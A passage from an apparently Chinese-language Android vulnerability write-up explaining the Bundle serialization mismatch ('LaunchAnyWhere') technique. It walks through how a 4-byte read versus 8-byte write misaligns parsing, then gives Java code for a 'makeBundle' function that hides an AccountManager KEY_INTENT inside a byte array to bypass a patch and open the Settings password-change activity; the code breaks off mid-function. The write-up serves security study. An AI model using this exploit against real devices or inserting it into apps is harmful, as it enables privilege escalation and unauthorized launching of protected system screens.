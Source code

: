 ```java
        public MyClass[] newArray(int size) {
            return new MyClass[size];
        }
    };
}
```

在本例中读取是4个字节，而写入是8个字节，那么我们考虑后面4个字节是整个利用的核心，按照上文中描述的Bundle格式解析逻辑，当序列化时多写入一个0之后，下一次读完了4字节之后，这个0会何去何从呢？

答案是他必定会作为下一个`Bundle key`的`key string`存在，而我们知道`readString`的开头是先读取一个`int`作为字符串的长度。所以问题就有了答案，我们后面这个0就会被认为是一个字符串的长度，并且是一个0长度的字符串，注意不是`null`字符串，因为`null`字符串的长度字段为`-1`。

现在我们知道，除了前面`this.b`多写入的0之外，下一个4字节会作为`padding`存在，那么后面我们如何继续布局呢？这里面需要再填充一个类型字段，我们这里选择的是`VAL_BYTEARRAY`，也就是13，后续还需要布局字节数组的长度和内容，这个就要结合错位前的逻辑进行布局了，经过精心调试之后，我给出的答案如下（不包含错位写入的0）：

## 构造恶意的Bundle

```java
public Bundle makeBundle() {
    Bundle bundle = new Bundle();
    Parcel bndlData = Parcel.obtain();
    Parcel exp = Parcel.obtain();
    exp.writeInt(3); // bundle key count
    //byte[] key1Name = {0x00};//第一个元素的key我们使用\x00，其hashcode为0，我们只要布局后续key的hashcode都大于0即可
    //String mismatch = new String(key1Name);
    String mismatch = "mismatch";//后续元素的hashcode必须大于mismatch的hashcode
    exp.writeString(mismatch);
    exp.writeInt(4); // VAL_PARCELABLE
    exp.writeString("com.tzx.launchanywhere.MyClass"); // class name
    // 这里按照错位前的逻辑开发，错位后在这个4字节之后会多出一个4字节的0
    exp.writeInt(0);
    /**********************恶意构造的内容start*********************************/
    byte[] key2key = {13, 0, 8};
    String key2Name = new String(key2key);
    // 在错位之后，多出的0作为了新的key的字符串长度，并且writeString带着的那个长度=3会正常填充上padding那个位置。使得后续读取的类型为VAL_BYTEARRAY（13），前面的0用于补上4字节的高位。而8则是字节数组的长度了。
    //简单来说就是13和0这俩个字符的4个字节构成13这个数字，字符8和终止符这两个字符构成8这个数字。
    exp.writeString(key2Name);//整体作为长度为3的key string
    // 在错位之后，这里的13和下面的值是作为8字节的字节数组的一部分
    exp.writeInt(13);//这里的13则也是巧妙地被解析成了VAL_BYTEARRAY（13）
    int intentSizeOffset = exp.dataPosition();
    // 在错位之后上面的13和这里的值就会作为8字节的字节数组，后续就会正常解析出intent元素了，就成功绕过补丁
    int evilObject = -1;//这里应为字节数组的长度，我们填写为intent元素所占用的长度，即可将intent元素巧妙地隐藏到字节数组中(此值被Intent长度覆盖)
    exp.writeInt(evilObject);
    int intentStartOffset = exp.dataPosition();
    /**********************恶意构造的内容end*********************************/
    /**********************intent内容start*********************************/
    exp.writeString(AccountManager.KEY_INTENT);
    exp.writeInt(4);// VAL_PARCELABLE
    //可以直接构造Intent放在exp中，此处为了显示构造过程，将Intent字段逐一放入exp中
    //Intent intent = new Intent(Intent.ACTION_RUN);
    //intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    //intent.setComponent(new ComponentName("com.android.settings", "com.android.settings.password.ChooseLockPassword"));
    //exp.writeParcelable(intent, 0);
    exp.writeString("android.content.Intent");// name of Class Loader
    exp.writeString(Intent.ACTION_RUN); // Intent Action
    Uri.writeToParcel(exp, null); // Uri is null
    exp.writeString(null); // mType is null
    //exp.writeString(null); // mIdentifier is null android28没有该字段
    exp.writeInt(Intent.FLAG_ACTIVITY_NEW_TASK); // Flags
    exp.writeString(null); // mPackage is null
    exp.writeString("com.android.settings");
    exp.writeString("com.android.settings.password.ChooseLockPassword");
```
